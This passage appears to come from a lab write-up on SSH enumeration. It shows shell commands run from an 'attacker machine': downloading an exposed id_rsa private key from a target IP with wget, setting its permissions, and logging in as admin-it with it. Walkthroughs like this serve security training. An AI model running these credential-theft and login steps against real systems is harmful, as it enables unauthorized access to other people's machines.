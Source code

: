 now will be download this file in the attacker machine

$`mkdir private_key`

$ `cd private_key`

$`wget 'http://192.168.244.132/id_rsa'`

$`chmod 777 id_rsa`

$`ssh -i id_rsa admin-it@192.168.244.132`


<img width="960" alt="keypad" src="https://github.com/ferasku123/Enumeration/blob/main/1-ssh/public_private_key/login-with-private%20key.png">





